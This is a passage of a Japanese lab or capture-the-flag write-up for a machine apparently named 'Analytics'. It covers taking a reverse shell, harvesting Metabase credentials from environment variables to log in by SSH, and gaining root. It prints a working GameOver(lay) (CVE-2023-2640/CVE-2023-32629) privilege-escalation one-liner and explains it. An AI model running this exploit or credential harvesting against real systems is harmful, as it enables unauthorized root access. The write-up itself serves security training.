 ```python
print("Exploit!!")
```

これを実行するとリバースシェルを獲得できた。

![](./img/Analytics08.png)

![](./img/Analytics09.png)


### 2.3 環境変数からのパスワード取得

2.2にてリバースシェルを獲得した後、`env`コマンドで環境変数を取得すると、Metabaseのユーザ名`META_USER=metalytics`とパスワード`META_PASS=An4lytics_ds20223#`が入手できた。

![](./img/Analytics10.png)

これをsshのユーザ名とパスワードに使用するとアクセスに成功して一般ユーザシェルが獲得できる。

![](./img/Analytics11.png)

---

## 3. GameOver(lay)によるroot権限獲得

### 3.1 Kernelのバージョン確認

`uname -a`コマンドを実行するとOS(ディストリビューション)がUbuntuであることと、Kernelバージョンが6.2.0であることがわかる。

![](./img/Analytics12.png)

ここで、UbuntuでありLinux Kernelバージョン6.2.0であることの両方が満たされることでGameOver(lay)の脆弱性がある可能性が考えられる。
GameOver(lay)であるCVE-2023-2640、CVE-2023-32629がの脆弱性があるUbuntuとLinux kernelのバージョンリストを下の図に示す。

![](./img/Analytics14.png)

### 3.2 GameOver(lay)を利用した攻撃

GameOver(lay)が利用可能なようなのでPoCを使用してみる。GameOver(lay)(CVE-2023-2640、CVE-2023-32629)の詳細については別記事にて整理・紹介するが、PoCの動作だけは見てみる。
PoCは[Github - g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main)を利用した。

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

#### 3.2.1 PoCの動作

上記のPoCは次の2ステップからなる。
1. `unshare`コマンドにてOverlayFSをrootのCapabilityを継承したPython3を含むOverlayFSを作成・マウントする
2. 1でマウントしたOverlayFSからPython3を実行する。

